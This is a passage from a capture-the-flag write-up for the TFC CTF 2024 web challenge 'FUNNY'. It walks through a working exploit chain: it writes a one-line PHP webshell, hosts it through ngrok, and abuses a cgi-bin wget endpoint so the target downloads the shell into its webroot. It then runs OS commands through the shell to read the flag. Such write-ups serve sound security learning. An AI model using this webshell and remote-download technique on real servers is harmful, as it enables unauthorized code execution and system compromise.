 So, the webroot of this web application is `/var/www/public`, which means we can write our PHP webshell file into that directory!

## Exploitation

Armed with above information, to exploit this, we can:

- Create a PHP webshell file

```shell
┌[siunam♥Mercury]-(~/ctf/TFC-CTF-2024/Web/FUNNY)-[2024.08.05|17:05:46(HKT)]
└> echo -n '<?php system($_GET["cmd"]);?>' > webshell.php
```

- Host the webshell file

```shell
┌[siunam♥Mercury]-(~/ctf/TFC-CTF-2024/Web/FUNNY)-[2024.08.05|17:06:01(HKT)]
└> python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

- Port forwarding via `ngrok`

```shell
┌[siunam♥Mercury]-(~/ctf/TFC-CTF-2024/Web/FUNNY)-[2024.08.05|17:05:42(HKT)]
└> ngrok http 8000
[...]
Forwarding                    https://9085-{REDACTED}.ngrok-free.app -> http://localhost:8000
[...]
```

- Send the following payload

```shell
┌[siunam♥Mercury]-(~/ctf/TFC-CTF-2024/Web/FUNNY)-[2024.08.05|17:09:02(HKT)]
└> curl http://challs.tfcctf.com:30472/cgi-bin/wget?https://9085-{REDACTED}.ngrok-free.app/webshell.php+-O+/var/www/public/webshell.php
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>500 Internal Server Error</title>
</head><body>
[...]
```

Which should receive this log message:

```shell
127.0.0.1 - - [05/Aug/2024 17:09:48] "GET /webshell.php HTTP/1.1" 200 -
```

- Execute any OS command in `/webshell.php` via GET parameter `cmd`

```shell
┌[siunam♥Mercury]-(~/ctf/TFC-CTF-2024/Web/FUNNY)-[2024.08.05|17:09:48(HKT)]
└> curl http://challs.tfcctf.com:30472/webshell.php?cmd=id
uid=1000(www) gid=1000(www) groups=1000(www)
┌[siunam♥Mercury]-(~/ctf/TFC-CTF-2024/Web/FUNNY)-[2024.08.05|17:11:36(HKT)]
└> curl http://challs.tfcctf.com:30472/webshell.php?cmd=ls+-lah+/
[...]
-rw-r--r--   1 root root   59 Aug  3 09:59 flag.txt
[...]
┌[siunam♥Mercury]-(~/ctf/TFC-CTF-2024/Web/FUNNY)-[2024.08.05|17:11:39(HKT)]
└> curl http://challs.tfcctf.com:30472/webshell.php?cmd=cat+/flag.txt
TFCCTF{1_4lm0st_f0rg0t_t0_push_th1s_fl4g_t0_th3_c0nt4in3r}
```

